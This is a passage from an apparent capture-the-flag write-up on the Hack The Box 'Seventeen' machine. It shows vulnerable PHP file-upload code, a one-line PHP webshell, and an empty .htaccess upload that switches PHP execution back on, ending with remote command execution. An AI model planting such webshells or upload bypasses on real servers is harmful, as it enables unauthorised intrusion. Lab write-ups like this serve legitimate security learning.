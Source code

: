 ```bash
                        mysqli_query($conn, "INSERT INTO `storage` VALUES('', '$file_name', '$file_type', '$date', '$stud_no')") or die(mysqli_error());
                        header('location: student_profile.php');
                }
        }
?>
```

Essentially, all the code is doing when a new file is uploaded, it saves it into files/[stud_no]/[filename]

e.g. if we were to upload a php file as stud_no 31234, the file path would be:

```bash
http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/file.php
```

Let’s make a simple php webshell and test if it works.

```bash
<? system($_REQUEST['cmd']); ?>
```

Now let’s attempt to visit:

```bash
http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/file.php
```

![image.png]({{ site.baseurl }}/assets/seventeen//image%2010.png)

One way to bypass this is to upload a new .htacess file, which overwrites the original, which is preventing us from executing php code.

Now let’s reupload our webshell and capture the request on burp, and send it to repeater

![image.png]({{ site.baseurl }}/assets/seventeen//image%2011.png)

Now we can just upload an empty file named: .htaccess

![image.png]({{ site.baseurl }}/assets/seventeen//image%2012.png)

Now let’s visit our webshell again:

```bash
http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/file.php?cmd=id
```

![image.png]({{ site.baseurl }}/assets/seventeen//image%2013.png)

We now have shell. Another around this is by simply creating a web shell as a new user, as in save_file.php, this part of the code is flawed. If a new user with a new stud_no were to create a file, the server would create a brand new directory with that stud_no, with no .htaccess to restrict php code execution.

```bash
                if(!file_exists("files/".$stud_no)){
                        mkdir("files/".$stud_no);
                }

```
